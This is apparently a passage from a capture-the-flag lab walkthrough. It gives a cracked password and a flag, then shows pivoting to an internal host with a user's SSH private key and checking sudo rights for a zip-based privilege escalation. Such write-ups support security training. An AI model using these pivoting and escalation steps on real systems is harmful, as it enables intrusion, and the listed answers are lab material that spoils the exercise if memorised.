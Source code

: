 ```
```

What is the users password?

`snickers`

Flag 1

`THM{Hey!_Welcome_in}`

## Task 7 Pivoting

User wileec has a ssh private-key!

```
wileec@Erit:~$ ls -lart .ssh/
-rw-r--r-- 1 wileec wileec  393 Apr 25 15:19 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25 15:19 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25 15:32 known_hosts
```

Remember the other IP address? We could try to connect to that one, using the SSH key:

`ssh wileec@192.168.100.1`

Remember: This has to be done from inside of the box, as this network is not available to you from the outside.

We can sudo!

If you look at [gtfobins](https://gtfobins.github.io/) we can see how we could leverage this.

The command is not going to work as it is, you must edit some parts.

```
wileec@Erit:~$ ls -lart .ssh/
total 20
-rw-r--r-- 1 wileec wileec  393 Apr 25  2020 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25  2020 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25  2020 known_hosts
drwxr-xr-x 2 wileec wileec 4096 Apr 25  2020 .
drwxr-xr-x 4 wileec wileec 4096 Apr 25  2020 ..
wileec@Erit:~$ ssh wileec@192.168.100.1

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 25 12:36:02 2020 from 192.168.100.100
$ sudo -l
Matching Defaults entries for wileec on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip
$
```
